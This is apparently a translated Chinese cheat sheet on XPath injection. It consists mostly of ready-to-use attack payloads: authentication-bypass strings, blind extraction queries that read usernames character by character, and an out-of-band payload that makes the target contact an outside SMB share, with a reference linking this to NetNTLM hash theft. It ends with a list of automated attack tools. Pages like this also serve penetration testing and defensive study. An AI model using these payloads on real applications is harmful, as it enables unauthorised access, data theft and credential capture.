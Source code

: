 # XPath 注入

> XPath注入是一种攻击技术，用于利用从用户提供的输入构造XPath（XML路径语言）查询以查询或导航XML文档的应用程序。

## 摘要

* [利用](#exploitation)
* [盲利用](#blind-exploitation)
* [带外利用](#out-of-band-exploitation)
* [工具](#tools)
* [参考资料](#references)

## 利用

类似于SQL：`"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"`

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
search=')] | //user/*[contains(*,'
search=Har') and contains(../password,'c
search=Har') and starts-with(../password,'c
```

## 盲利用

1. 字符串的大小

   ```sql
   and string-length(account)=SIZE_INT
   ```

2. 提取一个字符

   ```sql
   substring(//user[userid=5]/username,2,1)=CHAR_HERE
   substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
   ```

## 带外利用

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## 工具

- [xcat](https://github.com/orf/xcat) - 自动化XPath注入攻击以检索文档
- [xxxpwn](https://github.com/feakk/xxxpwn) - 高级XPath注入工具
- [xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - 使用预测文本的xxxpwn分支
- [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [XmlChor](https://github.com/Harshal35/XMLCHOR) - XPath注入利用工具

## 参考资料

* [OWASP XPATH注入](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [在窃取NetNTLM哈希时感兴趣的地方 - Osanda Malith Jayathissa - 2017年3月24日](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
